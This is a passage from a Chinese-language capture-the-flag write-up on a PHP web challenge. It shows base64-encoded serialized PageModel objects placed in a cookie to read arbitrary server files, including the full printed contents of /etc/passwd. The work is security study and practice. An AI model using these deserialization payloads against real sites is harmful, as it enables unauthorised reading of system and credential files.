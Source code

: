      Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czo0OiJmbGFnIjt9
     ```

   * 尝试改变对象类名，返回的response为空

     ```shell
     O:4:"flag":1:{s:4:"file";s:4:"flag";}
     
     Tzo0OiJmbGFnIjoxOntzOjQ6ImZpbGUiO3M6OToiL3d3dy9mbGFnIjt9
     ```

10. 检查response header，发现不用nmap扫描都可以直接获取服务的信息

    ```http
    HTTP/1.1 200 OK
    Server: nginx
    Date: Thu, 06 May 2021 01:35:25 GMT
    Content-Type: text/html; charset=UTF-8
    Transfer-Encoding: chunked
    Connection: close
    X-Powered-By: PHP/7.4.15
    ```

11. 继续尝试修改Cookie

    * 尝试修改为图片资源，检测能否正常加载，发现正常返回大量乱码字符，应该是直接加载的图片资源传了过来，证明可以进行文件访问

      ```php
      O:9:"PageModel":1:{s:4:"file";s:32:"/www/static/images/dart-frog.jpg";}
      
      Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czozMjoiL3d3dy9zdGF0aWMvaW1hZ2VzL2RhcnQtZnJvZy5qcGciO30=
      ```

    * 尝试访问images目录下有无flag，返回空

      ```php
      O:9:"PageModel":1:{s:4:"file";s:23:"/www/static/images/flag";}
      
      Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoyMzoiL3d3dy9zdGF0aWMvaW1hZ2VzL2ZsYWciO30=
      ```

    * 尝试访问js目录下有无flag，返回空

    * 尝试访问www目录下有无flag

    * 尝试访问/etc/passwd，返回了具体内容，可以看出/www是个根目录下的目录，而且存在ftp和mail服务

      ```shell
      root:x:0:0:root:/root:/bin/ash bin:x:1:1:bin:/bin:/sbin/nologin daemon:x:2:2:daemon:/sbin:/sbin/nologin adm:x:3:4:adm:/var/adm:/sbin/nologin lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin sync:x:5:0:sync:/sbin:/bin/sync shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown halt:x:7:0:halt:/sbin:/sbin/halt mail:x:8:12:mail:/var/mail:/sbin/nologin news:x:9:13:news:/usr/lib/news:/sbin/nologin uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin operator:x:11:0:operator:/root:/sbin/nologin man:x:13:15:man:/usr/man:/sbin/nologin postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin cron:x:16:16:cron:/var/spool/cron:/sbin/nologin ftp:x:21:21::/var/lib/ftp:/sbin/nologin sshd:x:22:22:sshd:/dev/null:/sbin/nologin at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin games:x:35:35:games:/usr/games:/sbin/nologin cyrus:x:85:12::/usr/cyrus:/sbin/nologin vpopmail:x:89:89::/var/vpopmail:/sbin/nologin ntp:x:123:123:NTP:/var/empty:/sbin/nologin smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin guest:x:405:100:guest:/dev/null:/sbin/nologin nobody:x:65534:65534:nobody:/:/sbin/nologin www:x:1000:1000:1000:/home/www:/bin/sh nginx:x:100:101:nginx:/var/lib/nginx:/sbin/nologin
      ```
